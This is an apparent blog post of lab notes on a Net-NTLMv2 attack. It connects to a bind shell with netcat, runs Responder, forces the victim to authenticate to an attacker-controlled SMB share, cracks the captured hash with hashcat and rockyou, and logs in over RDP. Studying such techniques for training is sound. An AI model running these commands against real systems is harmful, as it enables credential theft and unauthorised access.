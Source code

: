 ```yaml
---
layout: post
title: Net-NTLMv2
titledate: 09/12/23
tags: ["infosec","offsec", "password", "ntlm", "responder"]
---
```


#### net-NTLMv2

sometimes we may gain access to a system as an unpriveleged user which means we cannot use tools like mimikatz

in this example we will assume we setup a bind shell on our target windows machine and connect to it 

    $ nc 192.168.50.50 4444

we can now check which user we are logged in as and what priveleges we have

    $ whoami

    $ net user ted

ted does not belong to the administrator group but does belong to the Remote Desktop Users group

because we do not have Admin privs we can not use mimikatz, but we can setup an smb server and use ted to attempt authentication
to capture his NTLM hash

    $ sudo responder -I tun0

next we want to provide an arbitrary share in order to catch ted's auth creds

if we visit our NC bind shell terminal to our first machine 

    C:\> dir \\192.168.119.2\test

in this example test does not exist

Responder will capture the hash so we can save it to ted.hash

and then find the hashcat mode 

    hashcat --help | grep -i "ntlm"

and using the NTLMv2 network protocol mode

    $ hashcat -m 5600 ted.hash /usr/share/wordlists/rockyou.txt --force

now we should be able to utilize the rdp protocol to connect with ted to the target machine with the cracked hash password